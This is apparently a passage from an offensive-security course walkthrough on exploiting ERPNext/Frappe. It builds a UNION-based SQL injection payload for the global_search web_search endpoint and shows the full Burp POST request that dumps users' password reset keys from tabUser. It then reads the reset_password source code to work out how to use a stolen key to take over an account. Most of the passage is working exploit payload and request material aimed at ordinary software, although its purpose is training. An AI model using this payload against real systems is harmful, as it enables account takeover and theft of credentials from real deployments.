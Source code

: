 The SQL query in Listing 49 needs to conform to the UNION query. This time, we will use the number "1" for the name/email and number "5" for the reset_password_key. The updated query can be found in Listing 50.

SELECT `doctype`, `name`, `content`, `title`, `route`
  FROM `__global_search`
  WHERE `published` = 1 AND  `route` like "offsec_scope" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#%" AND MATCH(`content`) AGAINST (\'\\"offsec\\"\' IN BOOLEAN MODE)
  LIMIT 20 OFFSET 0'
Listing 50 - Payload for password reset key

Using the highlighted section in Listing 50 as the payload in Burp, we can obtain the password reset key.



```
POST / HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: None
X-Requested-With: XMLHttpRequest
Content-Length: 188
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/
Cookie: user_image=; system_user=yes; user_id=Guest; full_name=Guest; sid=Guest

cmd=frappe.utils.global_search.web_search&text=offsec&scope=offsec_scope" UNION ALL SELECT name COLLATE utf8mb4_general_ci,2,3,4,reset_password_key COLLATE utf8mb4_general_ci FROM tabUser#
```
The Burp response contains the password_reset_key in the "route" string with the email in the "doctype" string

Now that we have the password_reset_key, let's figure out how to use it to reset the password. We will search the application's source code for "reset_password_key" with the idea that wherever this column is used, it will most likely give us a hint on how to use the key.

Searching for "reset_password_key" allows us to discover the reset_password function in the file apps/frappe/frappe/core/doctype/user/user.py. The function can be found below.

	def reset_password(self, send_email=False, password_expired=False):
		from frappe.utils import random_string, get_url

		key = random_string(32)
		self.db_set("reset_password_key", key)

		url = "/update-password?key=" + key
		if password_expired:
			url = "/update-password?key=" + key + '&password_expired=true'
